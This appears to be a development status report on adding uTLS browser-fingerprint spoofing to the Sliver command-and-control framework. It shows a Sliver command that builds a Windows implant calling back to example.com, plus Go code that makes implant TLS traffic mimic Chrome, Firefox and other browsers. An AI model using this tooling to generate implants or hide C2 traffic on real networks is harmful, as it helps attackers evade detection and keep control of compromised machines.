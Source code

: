 ### Docker Build: SUCCESS ✅
- Duration: ~5 minutes
- Protobufs regenerated correctly
- Server compiled successfully
- Client compiled successfully
- uTLS imports resolved correctly

### Implant Generation: SUCCESS ✅
```bash
sliver > generate --http example.com:443 --os windows --arch amd64 --format exe --save /tmp/test-implant.exe --debug

[*] Generating new windows/amd64 implant binary
[*] Build completed in 11s
[*] Implant saved to /tmp/test-implant.exe
```

**Result:** ✅ **11-second build time** (production-ready performance)

### Vendor Sync Issue: RESOLVED ✅
**Problem:** Vendor directory out of sync after Docker build  
**Solution:** Run `implant/scripts/update-vendor.sh`  
**Result:** All dependencies synchronized, implants compile perfectly

---

## 🏗️ Architecture Implementation

### Design Pattern: DialTLSContext Override
```go
// Standard pattern for uTLS integration
transport.DialTLSContext = func(ctx context.Context, network, addr string) (net.Conn, error) {
    // 1. Parse hostname
    host, _, err := net.SplitHostPort(addr)
    
    // 2. Create uTLS config
    cfg := &utls.Config{
        InsecureSkipVerify: true,  // Sliver uses app-layer encryption
        ServerName:         host,
    }
    
    // 3. Dial with custom fingerprint
    return dialTLS(ctx, network, addr, cfg, opts.TLSFingerprint, opts.NetTimeout)
}
```

### Fingerprint Selection:
```go
func getBrowserID(fingerprint string) utls.ClientHelloID {
    switch fingerprint {
    case "chrome":              return utls.HelloChrome_Auto
    case "firefox":             return utls.HelloFirefox_Auto
    case "edge":                return utls.HelloEdge_Auto
    case "ios":                 return utls.HelloIOS_Auto
    case "safari":              return utls.HelloSafari_Auto
    case "randomized":          return utls.HelloRandomized
    case "randomized-alpn":     return utls.HelloRandomizedALPN
    case "randomized-noalpn":   return utls.HelloRandomizedNoALPN
    default:                    return utls.HelloRandomizedALPN  // Safe default
    }
}
```
